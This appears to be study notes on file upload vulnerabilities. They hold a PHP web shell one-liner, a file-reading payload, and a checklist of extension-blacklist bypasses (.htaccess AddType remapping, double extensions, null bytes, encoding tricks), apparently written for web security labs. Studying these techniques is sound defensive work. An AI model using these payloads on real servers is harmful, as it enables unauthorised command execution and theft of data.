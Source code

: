 `<?php echo file_get_contents('/path/to/target/file'); ?>`
`<?php echo system($_GET['command']); ?>`
`GET /example/exploit.php?command=id HTTP/1.1`

# Checklist
- Directory Traversal Upload
- Extension blacklist bypass
	- `.htaccess` -> `ddType application/x-httpd-php .l33t`
		- Executes `.l33t` as PHP
- Provide multiple extensions
	- `exploit.php.jpg`
- Add trailing characters
	- `exploit.php.`
- URL encoding (or double URL encoding)
	- `exploit%2Ephp`
- Add semicolons or URL-encoded null byte characters
	- `exploit.asp;.jpg` or `exploit.asp%00.jpg`
- Multibyte unicode characters
	- `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E`
		- if parsed as UTF-8
- Obfuscate
	- `exploit.p.phphp`

### Extension blacklist bypass
- Change the value of the `filename` parameter to `.htaccess`.
- Change the value of the `Content-Type` header to `text/plain`.
- Replace the contents of the file (PHP payload) with the following Apache directive:
    
    `AddType application/x-httpd-php .l33t`
    
    >This maps an arbitrary extension (`.l33t`) to the executable MIME type `application/x-httpd-php`. As the server uses the `mod_php` module, it knows how to handle this already.
    
- Upload `exploit.l33t` as PHP webshell